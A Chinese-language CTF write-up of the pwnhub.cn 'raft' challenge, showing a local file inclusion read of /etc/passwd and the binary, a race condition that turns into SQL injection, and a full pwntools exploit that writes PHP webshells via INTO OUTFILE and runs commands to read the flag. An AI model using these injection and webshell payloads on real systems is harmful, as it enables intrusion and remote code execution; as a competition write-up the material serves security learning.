 ```yaml
---
layout: post
title: pwnhub.cn 拍卖行之旅 raft writeup
categories: [WEB, PWN, Writeup]
description: pwnhub.cn 拍卖行之旅 PWN题
keywords: WEB, PWN, Writeup, RaceConditon
---
```


题目没有给bin，只给了一个网站(http://54.223.241.254/)，看起来是一个膜火日的网站。。我也来膜一发火日。。

网站有本地文件包含漏洞

```
http://54.223.241.254/?page=/etc/passwd
```

利用这个漏洞可以读取服务器上文件，也可以用此方法读到binary文件，至于如何找，只要依次访问如下文件就可以。

```
https://hub.docker.com/r/eadom/ctf_xinetd/~/dockerfile/
http://54.223.241.254/?page=/etc/xinetd.d/ctf
http://54.223.241.254/?page=/home/ctf/raft
```

拿到binary以后就可以分析了

## 漏洞分析&利用

这题binary文件很大，所以漏洞比较隐秘。由于binary中函数比较多，所以从头逆向是下下之策。

我直接通过string 定位到了SQL语句。

```
snprintf(&s, 500uLL, "INSERT INTO TOKENS (TOKENS, PASSWORD) VALUES('%s', '%s')", v5, v4, v17);
v22 = mysql_query(v18, (__int64)&s);
```

看起来v4如果可控的话，是有注入攻击的。那v4到底是否可控呢？

简单的逆一下这个函数的父函数、主函数等相关函数发现，程序提供了reg password\bid price两大功能，而v4是password的md5值，所以并不可控。然后发现这个程序居然是多线程的，心想可不可能是racecondition，由于C++的binary看起来太蛋疼，我就干脆直接写一个fuzzer跑了一下：

```python
from pwn import *;
import random;
io=process("./raft");
def bid(data):
	io.sendline("bid "+data);
def reg(passwd):
	io.sendline("reg "+passwd);
def printhelp(cmd):
	io.sendline("help"+cmd);
while(1):
	try:
		r0=random.randint(0,995);
		r1=random.randint(0,995);
		r2=random.randint(0,995);
		r3=random.randint(0,2);
		if r3==1:
			bid("A"*r1)
		elif r3==2:
			reg("B"*r2)
		else:
			printhelp("C"*r0);
		print io.recv(1000,1)
	except:
		io=process("./raft")
		time.sleep(1)
		continue;
```

然后查询本地的数据库，很快就发现了password竟然被插入了AAAAAAAA...，看来果真是racecondition，根据fuzzer生成的数据最终发现每次被插入AAAAAAAA...的时候，都是一个reg跟好几个bid，看起来是reg跟bid之间的争用，继续逆向程序，果然在0x429f发现了这个race condition。reg password中的存储md5(password)与bid price中的存储price用的是同一个内存，如果先跑一个reg，再跑n个bid的话，reg算好的md5(password)可能会被bid的price覆盖。这样我们就可以进行SQL注入了。

然后我是一个pwn选手。。 pwn选手。 pwn选手 pwn选 pwn pw p。。。。。

于是乎现学了爆表名、报错注入等一系列高端知识，把数据库翻了个底朝天，并没有找到flag。。然后接着想办法用select xxx into yyy上传webshell，上传了好几个小时，一直没上传进去，以为是权限不够，查阅各种资料，甚至还爆了secure_file_priv。。搞了几个小时，最后发现传不上去的原因是我传的那几个目录都不可写。。。。。。。最后传到/tmp终于成功了。。

接下来的问题就是成功了用菜刀连居然没反应，本来以为是被waf过滤掉了，于是乎到网上学习各种花式绕过waf的方法，都没成功。后来又想是不是LFI之后webshell就没法访问了，于是乎又到网上学了各种姿势尝试把webshell传到var/www/html目录下,又没成功，搞了几个小时，搞的tmp目录下都是我传的各种webshell，最后发现原来是菜刀的问题。。。菜刀连不上这个站。。直接用firefox手动操作就可以了。

```
最后上传 <?php echo system($_POST[1]);?> 到/tmp/1234.php
做以下两个post请求就可以看到flag。。
http://54.223.241.254/?page=/tmp/1234.php
1=ls /home/ctf

http://54.223.241.254/?page=/tmp/1234.php
1=cat /home/ctf/this-is-real-flag000
```

做完这题，我觉得我可以转web了。。。学了好多web知识

## Exploit

为了让大家看到我做题的艰辛，= =我决定保留注释

```python
from pwn import *;
import random;
#io=process("./raft");
io=remote("54.223.241.254", 22333)
fd=open("a.in","w");
def bid(data):
	io.sendline("bid "+data);
	fd.write("bid "+data+"\n")
def reg(passwd):
	io.sendline("reg "+passwd);
	fd.write("reg "+passwd+"\n")
while(1):
	try:
		r1=random.randint(0,800);
		r2=random.randint(0,800);
		r3=random.randint(0,1);
	#	sql="22');SELECT 'kaokaokao' INTO OUTFILE '/tmp/12c3ha4.txt'#"
		sql="22');SELECT '<?php eval($_POST[1]);?>' INTO OUTFILE '/tmp/1234567.php'#"
	#	sql="22');SELECT '<?php fputs(fopen(\"/tmp/shell257.php\",\"w\"),\"<?php ;?>\");?>' INTO OUTFILE '/tmp/noip97.php'#"
	
		#sql="22');SELECT '<?php @eval($_POST['passwd']);?>\n<b>123<b>' INTO OUTFILE '/tmp/noip5.php'#"
		#sql="22');INSERT INTO BID (PRICE,TOKENS) VALUES(222,(select TOKENS from BID where PRICE=222)+'"
		#sql="22');INSERT INTO BID (PRICE,TOKENS) VALUES(222,(select @@secure_file_priv))#"
		#sql="123'+ (select TOKENS from BID where TOKENS =1233 and (updatexml(0x3a,concat(1,("
	#	payload="select @@secure_file_priv"
	#	payload="select concat(group_concat(distinct table_name)) from information_schema.tables where table_schema=0x696e666f726d6174696f6e5f736368656d61"
		#payload="select concat(group_concat(distinct table_name)) from information_schema.tables where table_schema=0x646174657769746866697265"
		#payload="select concat(group_concat(distinct schema_name)) from information_schema.schemata"
		#payload="select concat(group_concat(distinct column_name)) from information_schema.columns where table_schema=0x646174657769746866697265 and table_name=0x544f4b454e53"
		#payload="select concat(group_concat(distinct column_name)) from information_schema.columns where table_schema=0x646174657769746866697265 and table_name=0x424944"
		
	#	sql2=")),1))));INSERT INTO TOKENS (TOKENS, PASSWORD) VALUES('123', '123"
	#	sql=sql+payload+sql2
		#if r3:
	#		bid("A"*r1)
	#	else:
	#		reg("B"*r2)
		reg("B"*888)
		for i in range(10):
			bid(sql);
		print io.recv(1000,1)
	except:
#		io=process("./raft")
		io=remote("54.223.241.254", 22333)
		time.sleep(1)
		continue;
```

好气啊，pwn漏洞老早就搞定了，卡web卡了10多小时，妈妈我要学习web！！

最后的最后，暴打出题人，膜火日。膜抢走我一血的bird。
